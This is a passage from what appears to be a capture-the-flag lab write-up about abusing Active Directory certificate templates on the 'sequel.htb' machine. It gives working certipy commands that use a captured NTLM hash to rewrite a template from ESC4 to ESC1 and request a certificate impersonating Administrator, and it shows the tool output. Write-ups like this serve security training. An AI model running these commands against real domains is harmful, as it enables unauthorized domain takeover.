 We found out that the template `DunderMifflinAuthentication` is vulnerable to `ESC4`, so we can update the template to make it vulnerable to ESC1
```bash
certipy template \
  -u ca_svc@sequel.htb \
  -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' \
  -template 'DunderMifflinAuthentication' \
  -target DC01.sequel.htb \
  -ns 10.129.89.45
```
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Successfully updated 'DunderMifflinAuthentication'
```

### Issue a cert with the updated template

Once the template is updated and vulnerable to ESC1 we can request a cert with that template, as Admnistrator in the upn, and we get back a pfx
```bash
certipy req \
  -ns 10.10.11.51 \
  -dns 10.10.11.51 \
  -dc-ip 10.10.11.51 \
  -key-size 4096 \
  -u 'ca_svc@sequel.htb' \
  -hashes :3b181b914e7a9d5508ea1e20bc2b7fce \
  -ca sequel-DC01-CA \
  -template 'DunderMifflinAuthentication' \
  -upn Administrator@sequel.htb
```
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 8
[*] Got certificate with multiple identifications
    UPN: 'Administrator@sequel.htb'
    DNS Host Name: '10.10.11.51'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_10.pfx'
```

### Unpack the pfx out of curiousity

A pfx is just a pkcs12 archive, so we can inspect the contents like so
```bash
openssl pkcs12 -in administrator_10.pfx -nokeys -passin pass:''
```
```bash
openssl pkcs12 -in administrator_10.pfx -nokeys -passin pass:'' |\
   openssl x509 -noout -text
```
